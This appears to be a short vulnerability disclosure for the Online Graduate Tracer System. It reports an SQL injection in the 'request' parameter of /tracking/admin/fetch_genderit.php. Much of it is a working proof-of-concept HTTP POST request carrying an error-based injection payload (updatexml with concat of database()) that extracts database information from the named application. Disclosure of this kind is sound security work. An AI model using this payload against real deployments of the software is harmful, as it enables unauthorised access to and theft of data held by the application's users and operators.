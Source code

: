 ## Online Graduate Tracer System has sql injection vulnerability


## supplier
https://www.sourcecodester.com/php/15904/online-graduate-tracer-system-college-ict-alumni.html

## Vulnerability file
/tracking/admin/fetch_genderit.php

## Vulnerability analysis
<img width="1142" alt="image" src="https://github.com/user-attachments/assets/ba44067b-6b3f-4af6-a0d6-2638f848f157">


## describe
There is an unrestricted SQL injection attack in the Online Graduate Tracer System, and the controllable parameter is request. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /tracking/admin/fetch_genderit.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://localhost
Connection: close
Referer: http://localhost/tracking/admin/adminlog.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

request=1%27+and+updatexml%281%2Cconcat%280x7e%2C%28database%28%29%29%29%2C3%29--+q
```
<img width="1220" alt="image" src="https://github.com/user-attachments/assets/e4a09a58-552c-4560-a4a7-c526b343e253">






